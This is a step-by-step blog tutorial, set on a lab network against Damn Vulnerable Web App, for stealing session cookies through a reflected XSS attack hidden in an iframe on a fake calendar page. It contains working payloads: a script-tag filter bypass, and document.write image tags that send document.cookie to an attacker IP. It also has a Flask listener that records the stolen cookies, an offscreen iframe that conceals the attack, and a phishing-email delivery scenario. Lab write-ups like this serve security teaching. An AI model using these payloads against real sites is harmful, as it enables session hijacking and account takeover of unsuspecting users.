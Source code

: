 ```yaml
---
layout: post
title: Reflected XSS Attack Through iFrame
categories:
- reflected xss
- web hacking
---
```


Imagine we are targetting an instance of __Damn Vulnerable Web App__ on an enterprise network. In this totally realistic scenarior, there is also an instance of Web Cal running on the same network. The Web Cal instance is vulnerable to clickjacking. To gain access to DVWA, we can create a malicious web page that masquerades as the Web Cal instance using an iframe. We then could place a second iframe into the page that executes a reflected XSS attack against the target DVWA instance on page load. We could then use social engineering to trick a user into navigating to our fake Web Cal page, and by doing so steal the user's DVWA session. 

On my lab network, the attacking machine is located at 192.168.1.169. Both the DVWA instance and Web Cal are running on a shared server with an IP of 192.168.1.30. When you see these addresses in the tutorial, remember to substitute them for your own.

#Step 0

We start out by "cloning" the Web Cal instance using an iframe. Our index page is set up in such a way that the iframe expands to take up the entire width of the screen, no matter what device it is loaded on.

{% highlight html %}
{% raw %} 

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
    <head>
        <title>Web Cal</title>
        <style type="text/css">
            body, html
            {
                margin: 0; padding: 0; height: 100%; overflow: hidden;
            }

            #content
            {
                position:absolute; left: 0; right: 0; bottom: 0; top: 0px; 
            }
        </style>
    </head>
    <body>
        <div id="content">
            <iframe width="100%" height="100%" frameborder="0" src="http://192.168.1.30/webcal/"></iframe>
        </div>

    </body>
</html>

{% endraw %} 
{% endhighlight %}

When we load the page, it looks exactly like the Web Cal instance.

#Step 1

Once we have "cloned" the Web Cal instance, it's time to find a reflected XSS vulnerability in the target site. For this example we will be using the Reflected XSS page on __Damn Vulnerable Web App__, with difficulty set to medium.

We start out by attempting to pass in a script tag directly through the URL using the __name__ parameter.

{% raw %} 
	http://192.168.1.30/dvwa/vulnerabilities/xss_r/?name=<script>alert('xss');</script>#
{% endraw %} 

This request seems to fail, and looking at the source code reveals some kind of filtering.

![oops]({{ site.baseurl }}images/iframes/xss-fail.png)

Filters can sometimes be evaded by randomizing the capitilization of the script tags, as shown below.

{% raw %} 
	http://192.168.1.30/dvwa/vulnerabilities/xss_r/?name=<sCriPt>alert('xss');</sCriPt>#
{% endraw %} 

Success - the filter evasion works.

![oops]({{ site.baseurl }}images/iframes/xss-success.png)

#Step 2

Now that we have identified a means to reflect scripts off of the page, let's try to execute a script that writes an image tag to the DOM. For our image, let's use this glorious picture of John Cena.

![john cena](http://www.wwe.com/f/styles/wwe_large/public/rd-talent/Bio/John_Cena_bio.png)

The following url should successfully load the image. We can't just straight up drop an image tag into the page, because doing so would not allow us to include the user's session cookie in the image tag. Insted we write the image tag to the DOM using a script tag.

{% raw %} 
	http://192.168.1.30/dvwa/vulnerabilities/xss_r/?name=<ScrIpt>document.write('<img src=\"http://www.wwe.com/f/styles/wwe_large/public/rd-talent/Bio/John_Cena_bio.png\"></img>')</sCriPt>#

{% endraw %} 

#Step 3

Now that we can write images to the page, let's do it from an iframe. We take the URL we created in step 2 and use it as the frame's source. We place the iframe in the index.html file we created earlier.

{% highlight html %}
{% raw %} 

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
    <head>
        <title>Test Layout</title>
        <style type="text/css">
            body, html
            {
                margin: 0; padding: 0; height: 100%; overflow: hidden;
            }

            #content
            {
                position:absolute; left: 0; right: 0; bottom: 0; top: 0px; 
            }
        </style>
    </head>
    <body>
        <div id="content">
            <iframe width="100%" height="100%" frameborder="0" src="http://192.168.1.30/webcal/"></iframe>
        </div>

	<iframe style="position:absolute;top:99px" src="http://192.168.1.30/dvwa/vulnerabilities/xss_r/?name=<ScrIpt>document.write('<img src=\"http://www.wwe.com/f/styles/wwe_large/public/rd-talent/Bio/John_Cena_bio.png\"></img>')</sCriPt>#"></iframe>


    </body>
</html>

{% endraw %} 
{% endhighlight %}

We then try to access our index.html page. If we see John Cena inside the iframe, we know the image tag injection worked.

![oops]({{ site.baseurl }}images/iframes/oops.png)

Uh oh! Check out the results above. Simply escaping the double quotes for our image tag's source does not seem to be working. 

To fix this problem, we need to use html entities for the quotes in the image tag. We modify the iframe we added to index.html to look like this:

{% highlight html %}
{% raw %} 

	<iframe style="position:absolute;top:99px" src="http://192.168.1.30/dvwa/vulnerabilities/xss_r/?name=<ScrIpt>document.write('<img src=&quot;http://www.wwe.com/f/styles/wwe_large/public/rd-talent/Bio/John_Cena_bio.png&quot;></img>')</sCriPt>#"></iframe>

{% endraw %} 
{% endhighlight %}

Success! John Cena has entered the iframe.

![oops]({{ site.baseurl }}images/iframes/cena-in-frame.png)

#Step 4

Now for the finishing touches of our attack. Let's get rid of John Cena and aim our image's src to a a non existent image tag on our server. We'll attempt to set the filename to the victim's cookie. If all goes according to plan, the user's cookie should show up in our httpd error log.

{% highlight html %}
{% raw %} 

	<iframe style="position:absolute;top:99px" src="http://192.168.1.30/dvwa/vulnerabilities/xss_r/?name=<ScrIpt>document.write('<img src=&quot;192.168.1.169:4444?c='+document.cookie+'&quot;></img>')</sCriPt>#"></iframe>

{% endraw %} 
{% endhighlight %}

Tailing /var/log/httpd/error.log while making a request to http://localhost/ reveals that something isn't quite right. No record of our attempt to access the invalid image file shows up in our logs, which tells us that the request never happened in the first place.

![oops]({{ site.baseurl }}images/iframes/log-nope.png)

To learn why, we look at the source code of our loaded iframe. Notice how the image that we tried to write to the server does not contain any cookies. Instead, we see the following value for the tag's source attribute.

![oops]({{ site.baseurl }}images/iframes/concat-fail.png)

The problem is that since the image tag is being passed in through the URL, our plus signs are being converted into whitespace. This prevents us from easily using JavaScript string concatenation. The workaround is to use array joins instead.

{% highlight html %}
{% raw %} 

	<iframe style="position:absolute;top:99px" src="http://192.168.1.30/dvwa/vulnerabilities/xss_r/?name=<ScrIpt>document.write(['<img src=&quot;http://192.168.1.169/',document.cookie,'.png&quot;></img>'].join(''))</sCriPt>#"></iframe>

{% endraw %} 
{% endhighlight %}

Tailing our log file while reloading the page once again, we see that the image request has gone through successfully. 

![oops]({{ site.baseurl }}images/iframes/log-win.png)

Awesome. Now all we have to do is modify the image url slightly so that it passes the victim's cookies as a GET parameter.


{% highlight html %}
{% raw %} 

	<iframe style="position:absolute;top:99px" src="http://192.168.1.30/dvwa/vulnerabilities/xss_r/?name=<ScrIpt>document.write(['<img src=&quot;http://192.168.1.169:4444/?c=',document.cookie,'&quot;></img>'].join(''))</sCriPt>#"></iframe>

{% endraw %} 
{% endhighlight %}

We then use a quick Python script to set up a listener for the GET request.

{% highlight python %}
	
	from flask import Flask, request, render_template, abort
	from flask.ext.cors import CORS
	
	app = Flask(__name__)
	app.debug = True
	
	CORS(app)
	
	@app.route('/')
	def index():
	
	    cookies = request.args.get('c')
	    with open('cookies.txt', 'a') as fd:
	        print
	        print
	        print
	        print cookies
	        fd.write(cookies)
	    return abort(404)
	
	app.run(host='0.0.0.0', port=4444)

{% endhighlight %}


After reloading the page, we get the following output.


![oops]({{ site.baseurl }}images/iframes/cookies-stolen.png)

#Step 5

The mechanics behind the session hijacking attack are tested and complete. Now we just modify the iframe we added to our index.html page such that it is lifted completely outside of the visible portion of the page. By doing this, user is completely unaware that they've visited DVWA, let alone had their creds stolen.

{% highlight html %} 
{% raw %} 

	<iframe style="position:absolute;top:-9999px" src="http://192.168.1.30/dvwa/vulnerabilities/xss_r/?name=<ScrIpt>document.write(['<img src=&quot;http://192.168.1.169:4444/?c=',document.cookie,'&quot;></img>'].join(''))</sCriPt>#"></iframe>

{% endraw %} 
{% endhighlight %}

Here's a quick video on how the attack could play out. In the video, an email is sent to an administrator complaining that the Wiki page is down. The administrator opens the email, clicks the link, and navigates to what appears to be the Wiki page. The administrator's session is stolen, and the administrator navigates away from the page believing that the ticket is a false alarm.

<iframe width="560" height="315" src="https://www.youtube.com/embed/--9faUnC-k4" frameborder="0" allowfullscreen></iframe>

